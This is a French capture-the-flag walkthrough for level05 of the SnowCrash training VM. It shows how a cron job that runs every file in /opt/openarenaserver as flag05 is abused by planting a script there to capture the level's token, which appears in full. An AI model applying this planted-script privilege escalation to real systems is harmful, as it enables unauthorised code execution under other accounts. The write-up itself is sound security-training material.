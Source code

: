 # Level05

</br></br>

## vérifier fichier

```sh
level05@SnowCrash:~$ find / -name "level05" 2>/dev/null
/var/mail/level05
/rofs/var/mail/level05
```

</br></br>

## vérifier mail

```sh
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Il dit d'exécuter le script /usr/sbin/openarenaserver avec l'autorisation flag05 toutes les 2 minutes.

</br></br>

## /usr/sbin/openarenaserver

```sh
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Ce script exécute de manière récursive tous les fichiers du répertoire /opt/openarenaserver/ et définit un délai d'attente du processeur de 5 secondes pour chaque exécution de fichier. Ensuite, les fichiers dont l'exécution est terminée sont supprimés.

</br></br>

## Créer un exécutable getflag dans /opt/openarenaserver

On peut pas créer /tmp/level05/flag05 avec redirection!

```sh
level05@SnowCrash:~$ mkdir /tmp/level05
level05@SnowCrash:~$ ls -ld /tmp/level05
drwxrwxr-x 2 level05 level05 40 Aug 28 23:03 /tmp/level05
```

Seul "level05" a le droit de créer des fichiers dans ce dossier

```sh
level05@SnowCrash:~$ ls -ld /tmp
d-wx-wx-wx 5 root root 120 Aug 28 23:16 /tmp
```

donc, on peut le faire la redirection à /tmp

```sh
level05@SnowCrash:~$ vim /opt/openarenaserver/getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag05
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```

```sh
level05@SnowCrash:/tmp/level05$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/tmp/level05$ su level06
Password:
level06@SnowCrash:~$
```
